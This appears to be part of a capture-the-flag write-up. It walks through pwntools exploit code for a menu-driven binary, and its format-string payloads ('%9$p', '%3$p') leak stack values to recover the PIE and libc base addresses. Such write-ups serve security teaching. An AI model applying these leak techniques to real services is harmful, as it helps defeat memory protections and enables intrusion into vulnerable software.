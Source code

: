 #### Menu Functions

```python
def login(username):
    p.sendlineafter(b'>', b'1')
    p.sendline(username)

def change_username(payload):
    p.sendlineafter(b'>', b'2')
    p.sendline(payload)

def display_info():
    p.sendlineafter(b'>', b'3')
```

* Simple wrappers to interact with the menu.

#### Leaking PIE Base

```python
def leak_pie():
    change_username(b'%9$p')
    display_info()
    p.recvuntil(b'Username:')
    p.recvline()
    pie_leak = int(p.recvline().strip(), 16)
    log.info(f'PIE leak: {hex(pie_leak)}')
    masked_leak = pie_leak & 0xfffffffffffff000
    masked_leak = masked_leak - 0x1000
    log.info(f'Masked: {hex(masked_leak)}')
    return masked_leak
```

* **Payload:** `%9$p` leaks the 9th stack value (found via trial, typically a binary address).
* **Calculation:** Masks to page boundary (`& 0xfffffffffffff000`) and subtracts `0x1000` to get the base.
* **Result:** `elf.address` set to PIE base.

#### Leaking Libc Base

```python
def leak_libc():
    change_username(b'%3$p')
    display_info()
    p.recvuntil(b'Username:')
    p.recvline()
    libc_leak = int(p.recvline().strip(), 16)
    log.info(f'LIBC leak: {hex(libc_leak)}')
    return libc_leak - 0x114a77
```

* **Payload:** `%3$p` leaks the 3rd stack value (a libc address, found via testing).
* **Offset:** Subtracts `0x114a77` (offset of a known libc function, e.g., `__libc_start_main+231`) to get `libc_base`.
* **Result:** `libc.address` set to libc base.
